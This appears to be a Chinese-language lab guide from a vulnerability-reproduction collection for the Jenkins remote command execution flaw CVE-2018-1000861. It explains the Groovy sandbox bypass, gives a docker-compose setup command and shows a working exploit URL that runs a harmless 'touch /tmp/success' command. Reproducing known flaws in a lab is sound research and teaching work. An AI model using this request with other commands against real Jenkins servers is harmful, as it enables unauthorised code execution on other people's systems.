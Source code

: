 # Jenkins远程命令执行漏洞（CVE-2018-1000861）

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

参考链接：

- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html

## 环境搭建

执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到一个已经成功初始化的Jenkins，无需再进行任何操作。

## 漏洞复现

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```

![](2.png)

`/tmp/success`已成功创建：

![](3.png)
